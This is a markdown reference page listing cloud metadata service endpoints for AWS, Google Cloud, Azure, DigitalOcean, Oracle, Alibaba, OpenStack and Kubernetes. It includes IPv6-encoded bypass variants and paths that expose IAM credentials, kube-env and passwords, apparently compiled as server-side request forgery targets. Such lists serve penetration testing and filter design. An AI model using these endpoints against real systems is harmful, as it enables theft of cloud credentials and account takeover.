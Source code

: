 ```yaml
---
layout: memory
title: List of various Cloud Metadata Service Addresses
---
```


### IPv6 Tests
    http://[::ffff:169.254.169.254]
    http://[0:0:0:0:0:ffff:169.254.169.254]

### AWS 
Amazon Web Services (No Header Required) [Source](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

    http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
    http://169.254.169.254/latest/user-data
    http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/ami-id
    http://169.254.169.254/latest/meta-data/reservation-id
    http://169.254.169.254/latest/meta-data/hostname
    http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
    http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task : https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html

    http://169.254.170.2/v2/credentials/

### Google Cloud (Header Sometimes Required)
Source:  https://cloud.google.com/compute/docs/metadata
  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
  - Most endpoints can be accessed via the v1beta API without a header

    ```  
    http://169.254.169.254/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/
    http://metadata/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/instance/hostname
    http://metadata.google.internal/computeMetadata/v1/instance/id
    http://metadata.google.internal/computeMetadata/v1/project/project-id
    ```
    
### kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
    http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env

### Google allows recursive pulls 
    http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

### returns root password for Google
    http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

### Digital Ocean (No Header Required)
[Source](https://developers.digitalocean.com/documentation/metadata/)

    http://169.254.169.254/metadata/v1.json
    http://169.254.169.254/metadata/v1/ 
    http://169.254.169.254/metadata/v1/id   
    http://169.254.169.254/metadata/v1/user-data
    http://169.254.169.254/metadata/v1/hostname
    http://169.254.169.254/metadata/v1/region   
    http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud
    https://metadata.packet.net/userdata

### Azure (Header Required)
> Requires Header: "Metadata: true"
Source: https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
(Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/

    http://169.254.169.254/metadata/instance?api-version=2017-04-02
    http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

### Oracle Cloud (No Header Required)
Source: https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
    
    http://169.254.169.254/opc/v1/instance/

### Alibaba Cloud
Source: https://www.alibabacloud.com/help/faq-detail/49122.htm

    http://100.100.100.200/latest/meta-data/
    http://100.100.100.200/latest/meta-data/instance-id
    http://100.100.100.200/latest/meta-data/image-id

### OpenStack/RackSpace 
Source: https://docs.openstack.org/nova/latest/user/metadata-service.html

    http://169.254.169.254/openstack	 

### Oracle Cloud
Source:  https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html

    http://192.0.0.192/latest/
    http://192.0.0.192/latest/user-data/
    http://192.0.0.192/latest/meta-data/
    http://192.0.0.192/latest/attributes/

### Kubernetes
Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)

    https://kubernetes.default.svc.cluster.local
    https://kubernetes.default

Sources: 
- https://twitter.com/Random_Robbie/status/1072242182306832384
- https://kubernetes.default.svc/metrics

